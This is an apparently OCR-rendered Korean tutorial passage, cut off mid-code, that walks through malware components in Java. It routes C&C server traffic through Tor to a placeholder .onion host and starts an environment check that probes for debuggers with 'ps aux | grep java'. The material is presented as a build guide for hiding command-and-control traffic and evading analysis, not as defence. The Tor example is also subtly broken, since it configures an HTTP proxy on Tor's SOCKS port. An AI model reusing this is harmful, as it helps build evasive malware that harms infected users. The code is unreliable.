 ### 1. Tor 네트워크 통신
Tor 네트워크를 사용하면 C&C 서버와의 통신을 익명으로 라우팅할 수 있다.  
이를 구현하려면 Tor Proxy와 HTTP 클라이언트를 연동해야 한다.  

#### 구현
Java에서는 Tor 네트워크와 통신하기 위해 Tor Proxy 소프트웨어(예: Tor Expert Bundle)를 설치하고 `SocksProxy` 설정을 활용한다.  
Tor를 통해 HTTP 요청을 보내기 위해 Apache HttpClient를 사용할 수 있다.  

```java
import org.apache.http.HttpHost;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClients;

public class TorCommunication {
    public static void communicateWithTorServer(String url) {
        try {
            // Tor Proxy 설정
            HttpHost proxy = new HttpHost("127.0.0.1", 9050); // Tor 기본 포트 9050

            CloseableHttpClient httpClient = HttpClients.custom()
                    .setProxy(proxy)
                    .build();

            HttpGet request = new HttpGet(url);
            CloseableHttpResponse response = httpClient.execute(request);

            System.out.println("Tor Response: " + response.getStatusLine());
        } catch (Exception e) {
            System.err.println("Tor Communication Failed: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        communicateWithTorServer("http://example.onion"); // 테스트 서버 URL
    }
}
```

### 2. 실행 환경 체크
실행 환경 체크는 OS, 메모리, 디버깅 도구의 존재 등을 확인하는 것으로 시작한다.  

#### 구현
Java의 시스템 프로퍼티와 네이티브 명령어 실행으로 환경을 검사한다.  

```java
public class EnvironmentCheck {
    public static void checkEnvironment() {
        try {
            System.out.println("OS: " + System.getProperty("os.name"));
            System.out.println("Java Version: " + System.getProperty("java.version"));
            System.out.println("Available Processors: " + Runtime.getRuntime().availableProcessors());
            System.out.println("Free Memory: " + Runtime.getRuntime().freeMemory());

            // 디버거 감지 (간단한 예)
            String[] commands = {"/bin/sh", "-c", "ps aux | grep java"};
            Process process = Runtime.getRuntime().exec(commands);

            try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
                String line;
                while ((line = reader.readLine()) != null) {
```